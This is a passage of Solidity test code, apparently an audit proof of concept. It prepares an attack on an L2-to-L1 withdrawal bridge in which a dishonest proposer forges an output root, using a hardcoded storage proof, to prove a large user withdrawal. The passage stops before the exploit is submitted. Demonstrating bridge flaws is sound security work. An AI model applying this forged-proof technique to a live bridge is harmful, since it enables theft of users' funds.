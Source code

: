 ```solidity
        address target = mkaddr("target");

        uint256 nonce = 10;
        uint256 bigValue = 1e28;
        uint256 bigGasLimit = 3e6;

        bytes memory data = "";

        /**
         * This is the withdrawl transaction made by a user in the system, that wants to do a withdraw from L2 to L1
         * For the purpose of this attack, let's imagine it is a big transaction that is trying to move a big value
         */
        Types.WithdrawalTransaction memory _tx = Types.WithdrawalTransaction({ // A big transaction that is seen on-chain or any way
            nonce: nonce, // Nonce is either guessed or bruteforced by the dishonest proposer
            sender: sender,
            target: target,
            value: bigValue,
            gasLimit: bigGasLimit,
            data: data
        });


        /**
         * For simplicity, let's find the root that only the transaction above is sent to L2toL1Messenger
         * There are no other transactions accepted by the trie
         */
        // (
        //     bytes32 stateRoot,
        //     bytes32 storageRoot,
        //     bytes32 outputRoot,
        //     bytes32 withdrawalHash,
        //     bytes[] memory withdrawalProof
        // ) = ffi.getProveWithdrawalTransactionInputs(_tx);

        // root -> 0x707dc2cd507b6a212ee1aa8b1002ce12713c19fa3863eaf1ccd32462b837c66d
        // proof -> [E3A120716882ad40d154007b30379ec07f5477c2ea9309fc8e9238db225995b53dd5da01]
        // tx_hash -> 0xee5f6788e6d1e3e35913c5b3707cdcb96e8cdd15ad680392437533be759efd94
        // key -> 716882ad40d154007b30379ec07f5477c2ea9309fc8e9238db225995b53dd5da

        bytes[] memory proof = new bytes[](1);
        proof[0] = hex"E3A120716882ad40d154007b30379ec07f5477c2ea9309fc8e9238db225995b53dd5da01";
        bytes32 messagePasserStorageRoot = bytes32(0x707dc2cd507b6a212ee1aa8b1002ce12713c19fa3863eaf1ccd32462b837c66d);
        
        /**
         * Below, you can find the outputRootProof of the transaction above
         * version, stateRoot and latestBlockhash do not matter for this test, as long as they are the same for
         * both l2OutputOracle and passed to the withdraw
         */
        Types.OutputRootProof memory outputRootProof = Types.OutputRootProof({
            version: bytes32("0x1"),
            stateRoot: bytes32("0x1"),
            messagePasserStorageRoot: messagePasserStorageRoot,
            latestBlockhash: bytes32("0x1")
        });
        bytes32 outputRoot =  Hashing.hashOutputRootProof(outputRootProof);

        // No proposals are made to the l2OutputOracle yet
```